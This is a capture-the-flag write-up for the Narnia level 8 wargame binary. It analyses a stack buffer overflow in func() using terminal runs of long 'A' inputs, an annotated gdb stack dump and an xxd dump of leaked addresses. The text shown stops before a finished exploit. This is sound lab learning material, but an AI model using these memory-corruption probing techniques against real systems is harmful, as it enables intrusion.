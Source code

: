 With this challenge, we can see that the main() looks for a single argument to be passed to binary and if the user inputs nothing a message would be displayed informing of correct usage. When the user passes 1 more arguments to the binary, the first argument is passed to a custom function called func(). In the func(), we can see at the start a local variable called blah as well as a char array of 20 bytes named bok are declared. The local variable blah is also the address of b. The memset() is used to zero-out the memory in the bok array. Finally a For loop is used to write the contents of blah into the array of bok, but since there isn’t any size retriction on blah, there is a potential overflow here.

```
narnia8@melinda:/narnia$ ./narnia8 $(python -c'print("A"*19)')
AAAAAAAAAAAAAAAAAAA
narnia8@melinda:/narnia$ ./narnia8 $(python -c'print("A"*20)')
AAAAAAAAAAAAAAAAAAAAÿØÿÿÿÿÿÿñå÷8×ÿÿØÿÿ
```

```
(gdb) r $(python -c'print "\x41"*20')
Starting program: /games/narnia/narnia8 $(python -c'print "\x41"*20')
 
Breakpoint 1, 0x08048467 in func ()
(gdb) x/50wx $esp
0xffffd670:     0x08048580      0xffffd688      0x00000014      0xf7fceff4
0xffffd680:     0x080484b0      0x08049794      0x41414141 <--  0x41414141 - 0xffffd688 - the start of the user supplied data
0xffffd690:     0x41414141      0x41414141      0x41414141 <--  0xffffd8b4 <--    - 0xffffd69b - the end of the user supplied data
                                                                                - 0xffffd69c - Points to the memory address of blah
0xffffd6a0:     0xffffffff      0xf7e5f116      0xffffd6c8      0x0804848d <-- RET address back to the main() [main+31]
0xffffd6b0:     0xffffd8b4 <--  0x00000000      0x080484b9      0xf7fceff4 - 0xffffd69c - Points to the memory address of blah
-- omitted output --
0xffffd8a0:     0x73656d61      0x72616e2f      0x2f61696e      0x6e72616e
0xffffd8b0:     0x00386169      0x41414141 <--  0x41414141      0x41414141 - The start of *blah
0xffffd8c0:     0x41414141      0x41414141      0x45485300      0x2f3d4c4c
0xffffd8d0:     0x2f6e6962      0x68736162      0x52455400      0x74783d4d
```
After looking at the stack above, I realised that the machine code displayed in the output must of been the memory addresses at the end of bok. With this thought in mind, I decided to confirm this by running the binary agin with the output being dumped into the a file and then using the “xxd” command I looked at the dump file.

```
narnia8@melinda:/tmp/dump$ /narnia/narnia8 $(python -c'print "\x41"*20') >> output
narnia8@melinda:/tmp/dump$ xxd output
0000000: 2f6e 6172 6e69 612f 6e61 726e 6961 3820  /narnia/narnia8
0000010: 6172 6775 6d65 6e74 0a41 4141 4141 4141  argument.AAAAAAA
0000020: 4141 4141 4141 4141 4141 4141 41bb d8ff  AAAAAAAAAAAAA...
0000030: ffff ffff ff16 f1e5 f7e8 d6ff ff8d 8404  ................
0000040: 08bb d8ff ff0a                           ......
```
